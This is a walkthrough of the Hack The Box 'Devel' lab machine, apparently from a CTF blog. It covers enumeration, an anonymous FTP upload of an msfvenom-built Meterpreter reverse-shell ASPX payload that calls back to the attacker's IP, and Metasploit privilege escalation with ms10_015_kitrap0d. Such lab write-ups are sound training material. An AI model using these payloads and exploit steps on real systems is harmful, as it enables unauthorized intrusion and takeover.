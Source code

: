 ```yaml
---
title:     "Hack The Box - Devel"
tags: [windows,easy,iis,mfsvenom]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/1.png)

We are going to pwn Devel from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/3>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FTP:

We logged in as ``anonymous`` password can be anything. No files are interested.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/2.png)

## HTTP:

This is just default IIS Page:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/3.png)

I started my gobuster and checked anything useful for us.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/02/25 21:05:15 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
===============================================================
2020/02/25 21:07:45 Finished
===============================================================
```

This looks like the same file as we saw in ``ftp`` this means the ftp is connected with web server.

I confirmed that with opening ``/welcome.png``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/4.png)

So now we need to upload a reverse shell in ``ftp`` and access it from web.
I look at the response of the web and the server is running as ``ASP.NET`` so we need to upload ``.aspx`` shell.
```
HTTP/1.1 304 Not Modified
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 28 Feb 2020 23:49:04 GMT
Connection: close
```

We need to get reverse shell, I used ``msfvenom`` to create the payload.

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=1234 -f aspx > reverse.aspx

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/7.png)

Now upload it in ``ftp`` and using metasploit to get the shell.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/8.png)

And start the metasploit and select ``exploit/multi/handler`` which provides a listener.
Set the payload that we used in ``msfvenom`` which is ``windows/meterpreter/reverse_tcp``.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/9.png)


Now open the ``/reverse.aspx`` from the web <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/10.png)

I get the ``shell`` and checked ``systeminfo``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/11.png)

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.


I tried ``local_exploit_suggester`` this will give us some suggestions to exploit.For that we need to background the session.
```
meterpreter > 
Background session 3? [y/N]  
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/12.png)

We need to enter the session which it need to check.
```
msf5 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.28:1234 -> 10.10.10.5:49162 (10.10.10.5)

```
So its session 3.

Now we can run that<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/13.png)<br/>
There is a lot of exploits suggested so I picked up random one.

> exploit/windows/local/ms10_015_kitrap0d


```
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.28 
LHOST => 10.10.14.28
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1234
LPORT => 1234
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/14.png)



